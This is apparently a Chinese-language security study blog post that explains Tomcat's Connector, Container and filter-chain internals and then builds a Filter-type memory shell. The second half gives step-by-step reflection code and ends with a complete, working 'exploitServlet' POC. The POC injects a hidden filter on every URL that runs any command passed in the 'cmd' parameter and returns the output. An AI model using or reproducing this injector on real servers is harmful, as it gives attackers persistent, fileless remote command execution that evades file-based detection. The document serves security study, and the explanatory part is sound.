# Java安全学习—Tomcat内存马系列(一)

Author: H3rmesk1t

Data: 2022.08.14

# Tomcat 架构分析
## 简介

`Tomcat`是一个免费的开放源代码的`Servlet`容器，`Tomcat`容器是对`Servlet`规范的实现，也称为`Servlet` 引擎。`Tomcat`为了更好的处理来自客户端的请求，设计了一套功能完善的处理引擎，其中包括了`Container`、`Engine`、`Host`、`Context`、`Wrapper`等模块功能。

作为`Web`服务器，`Tomcat`实现了两个非常核心的功能:
 - `HTTP`服务器功能: 进行`Socket`通信(基于`TCP/IP`)，解析`HTTP`报文。
 - `Servlet`容器功能: 加载和管理`Servlet`, 由`Servlet`具体负责处理`Request`请求.

<div align=center></div>

以上两个功能，分别对应着`Tomcat`的两个核心组件连接器(`Connector`)和容器(`Container`)，连接器负责对外交流(完成 `HTTP`服务器功能)，容器负责内部处理(完成`Servlet`容器功能)。

<div align=center></div>

## 架构组成

<div align=center></div>

各组成部分含义:
 - `Server`: 即`Web`服务器，一个`Server`包括多个`Service`。

 - `Service`: `Service`的作用是将`Connector`和`Engine`组合在一起，对外提供服务。一个`Service`可以包含多个`Connector`，但是只能包含一个`Engine`，其中`Connector`的作用是从客户端接收请求，`Engine`的作用是处理接收进来的请求。

 - `Connector`: `Tomcat Engine`的连接组件，支持三种协议，分别是`HTTP/1.1`, `HTTP/2.0`以及`AJP`。

 - `Container`: 负责封装和管理`Servlet`处理用户的`servlet`请求，把`Socket`数据封装成`Request`，传递给`Engine`来进行处理。

 - `Engine`: 顶级容器，不能被其他容器包含，它接受处理连接器的所有请求，并将响应返回相应的连接器。`Engine`下可以配置多个虚拟主机，每个虚拟主机都有一个域名，当`Engine`获得一个请求时，它把该请求匹配到某个`Host`上，然后把该请求交给该`Host`来处理。`Engine`有一个默认虚拟主机，当请求无法匹配到任何一个`Host`上的时候，便会交给该默认`Host`来处理。

 - `Host`: 代表一个虚拟主机，每个虚拟主机和某个网络域名`Domain Name`相匹配，每个虚拟主机下都可以部署(`deploy`)一个或者多个`Web App`，每个`Web App`对应于一个`Context`。

 - `Context`: 代表一个`Web`应用程序，是`Servlet`、`Filter`的父容器。一个`Context`对应于一个`Web Application`，一个`WebApplication`由一个或者多个`Servlet`组成。

 - `Wrapper`: 代表一个`Servlet`，它负责管理`Servlet`的生命周期，包括装载、初始化、资源回收等，并提供了方便的机制使用拦截器。


## Connector
`Connector`连接器主要完成以下三个核心功能:
 - `Socket`通信。
 - 解析处理应用层协议，并封装成一个`Request`请求。
 - 将`Request`请求转换为`ServletRequest`，将`Response`转换为`ServletResponse`。

在`Connector`中包含了多个组件，`Connector`使用`ProtocolHandler`处理器来处理请求。不同的`ProtocolHandler`代表不同连接类型。`ProtocolHandler`处理器可以用看作是协议处理统筹者，通过管理其他工作组件实现对请求的处理。`ProtocolHandler`包含了三个非常重要的组件，分别对应了`Connector`连接器的三个核心功能:
  - `Endpoint`: 负责接收、处理`socket`网络连接.
  - `Processor`: 负责将从`Endpoint`接收的`socket`连接根据协议类型封装成`request`。
  - `Adapter`: 负责将封装好的`Request`交给`Container`进行处理, 解析为可供`Container`调用的继承了`ServletRequest`接口、`ServletResponse`接口的对象。

<div align=center></div>


## Container
`Container`容器是负责封装和管理`Servlet`, 处理用户的`servlet`请求，并返回对象给`web`用户的模块。`Container`组件又称作`Catalina`，其是`Tomcat`的核心。在`Container`中，有`4`种容器，分别是`Engine`、`Host`、`Context`、`Wrapper`。

<div align=center></div>

<div align=center></div>

四种容器的作用:
 - `Engine`表示整个`Catalina`的`Servlet`引擎，用来管理多个虚拟站点，一个`Service`最多只能有一个`Engine`，但是一个引擎可包含多个`Host`。实现类为`org.apache.catalina.core.StandardEngine`.
 - `Host`代表一个虚拟主机，或者说一个站点，可以给`Tomcat`配置多个虚拟主机地址，而一个虚拟主机下可包含多个`Context`。实现类为`org.apache.catalina.core.StandardHost`.
 - `Context`表示一个`Web`应用程序，每一个`Context`都有唯一的`path`，一个`Web`应用可包含多个`Wrapper`。实现类为`org.apache.catalina.core.StandardContext`.
 - `Wrapper`表示一个`Servlet`，负责管理整个`Servlet`的生命周期，包括装载、初始化、资源回收等。实现类为`org.apache.catalina.core.StandardWrapper`.

<div align=center></div>

`Container`处理请求时，内部是使用`Pipeline-Value`管道来处理的，每个`Pipeline`都有特定的`Value`， 即`BaseValue`, 其会在最后执行。上层容器的`BaseValue`会调用下层容器的管道，`FilterChain`其实就是这种模式，`FilterChain`相当于`Pipeline`，每个`Filter`相当于一个`Value`。`4`个容器的`BaseValve`分别是`StandardEngineValve`、`StandardHostValve`、`StandardContextValve`和`StandardWrapperValve`。

<div align=center></div>

<div align=center></div>

## 过滤链
在一个`Web`应用程序中可以注册多个`Filter`程序，每个`Filter`程序都可以针对某一个`URL`进行拦截。如果多个`Filter`程序都对同一个`URL`进行拦截，那么这些`Filter`就会组成一个`Filter`链, 也称过滤器链。

<div align=center></div>

在配置`Filter`的时候，假设执行完了就会来到下一个`Filter`里面，如果`FilterChain.doFilter`都进行放行的话，这时候才会执行`servlet`内容。整体的执行流程如下图所示:

<div align=center></div>

### ServletContext
在`javax.servlet.ServletContextServlet`规范中规定了的一个`ServletContext`接口，提供了`Web`应用所有`Servlet`的视图，通过它可以对某个`Web`应用的各种资源和功能进行访问。`WEB`容器在启动时，它会为每个`Web`应用程序都创建一个对应的`ServletContext`，它代表当前`Web`应用, 并且它被所有客户端共享。

在下图中可以看到`ServletContext`的方法中有`addFilter`、`addServlet`、`addListener`等方法，即添加`Filter`、`Servlet`、`Listener`等。

<div align=center></div>

### ApplicationContext
在`org.apache.catalina.core.ApplicationContext`中，对于`Tomcat`容器，为了满足`Servlet`规范，必须包含一个`ServletContext`接口的实现. 因此, `Tomcat`的`Context`容器中都会包含一个`ApplicationContext`。

### StandardContext
`org.apache.catalina.Context`接口的默认实现为`StandardContext`，而`Context`在`Tomcat`中代表一个`Web`应用。`ApplicationContext`所实现的方法其实都是调用的`StandardContext`中的方法，`StandardContext`是`Tomcat`中真正起作用的`Context`.


# Filter内存马
## 分析
跟进一下`StandardContext`，先来看看在`Tomcat`中是如何加载注册`Filter`的。在下图中可以看到，`startInternal`方法会先启动`listener`，接着是`Filter`，最后是`Servlet`。

<div align=center></div>

跟进`filterStart`，现将`filterConfigs`清空，接着遍历`filterDefs`来获取`key`和`value`，并将`value`封装成`ApplicationFilterConfig`对象连同`key`一起放入`filterConfigs`中。

<div align=center></div>

在`filterChain.doFilter(servletRequest, servletResponse);`处打个断点来看看调用过程。

<div align=center></div>

```java
doFilter:20, DemoFilter
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
invoke:197, StandardWrapperValve (org.apache.catalina.core)
invoke:97, StandardContextValve (org.apache.catalina.core)
invoke:541, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:135, StandardHostValve (org.apache.catalina.core)
invoke:92, ErrorReportValve (org.apache.catalina.valves)
invoke:687, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:78, StandardEngineValve (org.apache.catalina.core)
service:359, CoyoteAdapter (org.apache.catalina.connector)
service:399, Http11Processor (org.apache.coyote.http11)
process:65, AbstractProcessorLight (org.apache.coyote)
process:889, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1743, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1191, ThreadPoolExecutor (org.apache.tomcat.util.threads)
run:659, ThreadPoolExecutor$Worker (org.apache.tomcat.util.threads)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:745, Thread (java.lang)
```

在`ApplicationFilterChain#internalDoFilter`中，先从`filterConfig`中获取`filter`对象，接着调用`filter.doFilter`来调用自定义的`filter.doFilter`方法中。

<div align=center></div>

继续往上传追溯，可以看到在`StandardWrapperValve#invoke`中存放了两个`ApplicationFilterConfig`类型的`filter`，其中第一个`filter`就是我们自己创建的。

<div align=center></div>

跟进`filterChain`变量，可以看到其调用`ApplicationFilterFactory#createFilterChain`方法获得了一个`ApplicationFilterChain`对象。

<div align=center></div>

跟进`ApplicationFilterFactory#createFilterChain`，先获取`Request`，接着利用`getFilterChain`从`Request`中获取`filterChain`。接着往下走，通过`StandardContext`对象的`findFilterMaps`方法来获取`filterMaps`，接着遍历获取到的`filterMaps`，通过`ApplicationFilterChain#addFilter`方法把`FilterConfig`添加到`filterChain`中。

<div align=center></div>

<div align=center></div>

接着来看看三个和`Filter`有关的成员变量:
 - `filterMaps`变量: 包含所有过滤器的`URL`映射关系。
 - `filterDefs`变量: 包含所有过滤器包括实例内部等变量。
 - `filterConfigs`变量: 包含所有与过滤器对应的`filterDef`信息及过滤器实例，进行过滤器进行管理。

<div align=center></div>

既然这三个成员变量是与`Filter`相关的，那么构造`Filter`型内存马就应该要修改`StandardContext`对象中的这三个变量。来看看如何对这三个变量进行修改:
 - 对于`filterMaps`变量，有`StandardContext#addFilterMap`方法和`StandardContext#addFilterMapBefore`方法。

<div align=center></div>

 - 对于`filterConfigs`变量，跟进`StandardContext#filterStart`方法，该方法在上文中已经分析过了，其通过遍历`filterDefs`的键值对来初始化`filterConfigs`。

 - 对于`filterDefs`变量，跟进`StandardContext#addFilterDef`方法，在该处下个断点往前追溯。在`ContextConfig#configureStart`方法中会调用`ContextConfig#webConfig`方法，使用`webxml`解析器来解析`web.xml`，然后将其存放到`webxml`变量当中去。接着调用`ContextConfig#configureContext`方法来获取`web.xml`中的`filter`，进行遍历然后调用`StandardContext#addFilterDef`方法。在`StandardContext#addFilterDef`方法中将`filterName`和`filterDef`传入到`filterDefs`变量中。

```java
addFilterDef:3010, StandardContext (org.apache.catalina.core)
configureContext:1450, ContextConfig (org.apache.catalina.startup)
webConfig:1329, ContextConfig (org.apache.catalina.startup)
configureStart:986, ContextConfig (org.apache.catalina.startup)
......
```

<div align=center></div>

<div align=center></div>

<div align=center></div>

## 动态添加Filter
根据上文的分析过程，动态添加一个`Filter`过程大致如下:
 - 获取`standardContext`.
 - 创建`Filter`.
 - 利用`filterDef`封装`Filter`对象, 并将`filterDef`添加到`filterDefs`里面.
 - 创建`filterMap`, 将`url`和`filter`进行绑定并添加到`filterMaps`里面.
 - 利用`ApplicationFilterConfig`封装`filterDef`对象并添加到`filterConfigs`里面.

### 获取standardContext
`standardContext`主要负责管理`session`，`Cookie`，`Servlet`的加载和卸载, 因此在`Tomcat`中的很多地方都有保存。如果我们能够直接获取`request`的时候，可以使用以下方法直接获取`context`。`Tomcat`在启动时会为每个`Context`都创建一个`ServletContext`对象，表示一个`Context`, 从而可以将`ServletContext`转化为`StandardContext`。

```java
ServletContext servletContext = request.getSession().getServletContext();
Field appContext = servletContext.getClass().getDeclaredField("context");
appContext.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appContext.get(servletContext);

Field stdContext = applicationContext.getClass().getDeclaredField("context");
stdContext.setAccessible(true);
StandardContext standardContext = (StandardContext) stdContext.get(applicationContext);
```

<div align=center></div>

### 创建Filter
直接在代码中实现`Filter`实例，需要重写三个重要方法: `init`、`doFilter`、`destory`。

```java
Filter filter = new Filter() {

    @Override
    public void init(FilterConfig filterConfig) {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {

        HttpServletRequest httpServletRequest = (HttpServletRequest) servletRequest;
        if (httpServletRequest.getParameter("cmd") != null) {
            InputStream inputStream = Runtime.getRuntime().exec(httpServletRequest.getParameter("cmd")).getInputStream();
            Scanner scanner = new Scanner(inputStream).useDelimiter("\\A");
            String output = scanner.hasNext() ? scanner.next() : "";
            servletResponse.getWriter().write(output);
            return;
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {

    }
};
```

### 创建filterDef封装Filter对象
如下代码将内存马融合进了反序列化的`payload`中，因此这里利用了反射来获取`FilterDef`对象。如果使用的是`jsp`或者是非反序列化的利用，则可以直接使用`new`来创建对象。

```java
Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
Constructor filterDefDeclaredConstructor = FilterDef.getDeclaredConstructor();
FilterDef filterDef = (FilterDef) filterDefDeclaredConstructor.newInstance();
filterDef.setFilter(filter);
filterDef.setFilterName(FilterName);
filterDef.setFilterClass(filter.getClass().getName());
standardContext.addFilterDef(filterDef);
```

### 创建filterMap绑定URL
通过反射创建`FilterMap`实例，该部分代码主要是注册`filter`的生效路由，并将`FilterMap`对象添加在`standardContext`中`FilterMaps`变量的第一个。

```java
Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
Constructor filterMapDeclaredConstructor = FilterMap.getDeclaredConstructor();
FilterMap filterMap = (FilterMap) filterMapDeclaredConstructor.newInstance();
filterMap.addURLPattern("/*");
filterMap.setFilterName(FilterName);
filterMap.setDispatcher(DispatcherType.REQUEST.name());
standardContext.addFilterMapBefore(filterMap);
```

### 获取`filterConfigs`变量并添加`filterConfig`对象
先获取在`standardContext`中存储的`filterConfigs`变量, 之后通过反射生成`ApplicationFilterConfig`对象，并将其放入`filterConfigs hashMap`中。

```java
Configs = standardContext.getClass().getDeclaredField("filterConfigs");
Configs.setAccessible(true);
filterConfigs = (Map) Configs.get(standardContext);
```

```java
Class<?> ApplicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
Constructor<?> applicationFilterConfigDeclaredConstructor = ApplicationFilterConfig.getDeclaredConstructor(Context.class, FilterDef.class);
applicationFilterConfigDeclaredConstructor.setAccessible(true);
ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) applicationFilterConfigDeclaredConstructor.newInstance(standardContext, filterDef);
filterConfigs.put(FilterName, filterConfig);
```

## POC
### Java版本

```java
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;
import org.apache.catalina.core.ApplicationFilterConfig;

import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Map;
import java.util.Scanner;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/8/15 9:55 下午
 */

@WebServlet("/exploitServlet")
public class exploitServlet extends HttpServlet {

    protected void doGet(HttpServletRequest request, HttpServletResponse response) {

        this.doPost(request, response);
    }

    protected void doPost(HttpServletRequest request, HttpServletResponse response) {

        Field Configs = null;
        Map filterConfigs;
        try {
            ServletContext servletContext = request.getSession().getServletContext();
            Field appContext = servletContext.getClass().getDeclaredField("context");
            appContext.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) appContext.get(servletContext);

            Field stdContext = applicationContext.getClass().getDeclaredField("context");
            stdContext.setAccessible(true);
            StandardContext standardContext = (StandardContext) stdContext.get(applicationContext);

            String FilterName = "H3rmesk1t_Filter";
            Configs = standardContext.getClass().getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            filterConfigs = (Map) Configs.get(standardContext);

            if (filterConfigs.get(FilterName) == null) {
                Filter filter = new Filter() {

                    @Override
                    public void init(FilterConfig filterConfig) {

                    }

                    @Override
                    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {

                        HttpServletRequest httpServletRequest = (HttpServletRequest) servletRequest;
                        if (httpServletRequest.getParameter("cmd") != null) {
                            InputStream inputStream = Runtime.getRuntime().exec(httpServletRequest.getParameter("cmd")).getInputStream();
                            Scanner scanner = new Scanner(inputStream).useDelimiter("\\A");
                            String output = scanner.hasNext() ? scanner.next() : "";
                            servletResponse.getWriter().write(output);
                            return;
                        }
                        filterChain.doFilter(servletRequest, servletResponse);
                    }

                    @Override
                    public void destroy() {

                    }
                };

                Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
                Constructor filterDefDeclaredConstructor = FilterDef.getDeclaredConstructor();
                FilterDef filterDef = (FilterDef) filterDefDeclaredConstructor.newInstance();
                filterDef.setFilter(filter);
                filterDef.setFilterName(FilterName);
                filterDef.setFilterClass(filter.getClass().getName());
                standardContext.addFilterDef(filterDef);

                Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
                Constructor filterMapDeclaredConstructor = FilterMap.getDeclaredConstructor();
                FilterMap filterMap = (FilterMap) filterMapDeclaredConstructor.newInstance();
                filterMap.addURLPattern("/*");
                filterMap.setFilterName(FilterName);
                filterMap.setDispatcher(DispatcherType.REQUEST.name());
                standardContext.addFilterMapBefore(filterMap);

                Class<?> ApplicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
                Constructor<?> applicationFilterConfigDeclaredConstructor = ApplicationFilterConfig.getDeclaredConstructor(Context.class, FilterDef.class);
                applicationFilterConfigDeclaredConstructor.setAccessible(true);
                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) applicationFilterConfigDeclaredConstructor.newInstance(standardContext, filterDef);
                filterConfigs.put(FilterName, filterConfig);

                response.getWriter().write("Inject Successfully!");
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

<div align=center></div>

